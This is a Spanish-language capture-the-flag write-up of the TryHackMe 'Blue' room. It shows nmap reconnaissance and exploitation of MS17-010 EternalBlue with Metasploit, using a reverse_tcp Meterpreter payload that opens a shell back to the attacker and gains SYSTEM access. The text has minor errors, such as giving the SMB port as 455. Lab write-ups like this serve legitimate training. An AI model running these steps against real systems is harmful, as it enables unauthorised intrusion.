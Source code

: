 ```yaml
---
title : Blue
published : True
---
```


<p>Maquina : Blue</p>
<p>Url : <a href="https://tryhackme.com/room/blue">Blue</a></p>
<p></p>

<h2><font color="white"><center># blue</center></font></h2>
<p>Empezaremos con el reconocimiento de la maquina</p>
> ping -c 1 10.10.157.254
<p></p>
<img src="/imgs/blue/blue0.jpg"/>
<p>Vemos que en la imagen el ttl es de 127 lo que indica que es una maquina windows, ahora vemos que puertos están abiertos.</p>
> nmap --min-rate 5000 -Pn -sS --open 10.10.157.254 -o allports
<p></p>
<img src="/imgs/blue/blue1.jpg"/>
<p>tiene el puerto smb abierto <font color="gold">455</font> veremos si tiene vulnerabilidades, con nmap.</p>
> nmap --script smb-vuln* 10.10.127.254
<p></p>
<img src="/imgs/blue/blue2.jpg"/>
<p>Al paracer es vulnerable a <font color="yellow">( ms17-010 EternalBlue )</font>, ahora explotemos con <font color="gold">msfconsole</font>.</p>
<p>Usamos el exploit EternalBlue </p>
> use exploit/windows/smb/ms17_010_eternalblue
<p></p>
<img src="/imgs/blue/blue3.jpg"/>
<p>Ahora indicamos el payload que queremos ejecutar una vez ganado acceso a la maquina.</p>
> set payload windows/meterpreter/reverse_tcp
<p></p>
<img src="/imgs/blue/blue4.jpg"/>
<p>Indicamos la ip de la maquina victima con <font color="gold">set rhosts</font>.</p>
<img src="/imgs/blue/blue5.jpg"/>
<p>Ahora indicamos nuestra ip tun0 de nuestra vpn de tryHackMe.</p>
<img src="/imgs/blue/blue6.jpg"/>
<p>Seguidamente cambiamos el puerto 444 que viene por defecto para el payload, en caso de que haya un firewall indicado para cerrar conecciones
por el puerto 444.</p>
<img src="/imgs/blue/blue7.jpg"/>
<p>Seguidamente ejecutamos <font color="red">exploit</font> para iniciar el ataque.</p>
<img src="/imgs/blue/blue8.jpg"/>
<p>Y listo si ejecutas el comando Shell, y pones whoami seras autority system</p>
<p>Ok maquina vulnerada</p>
3
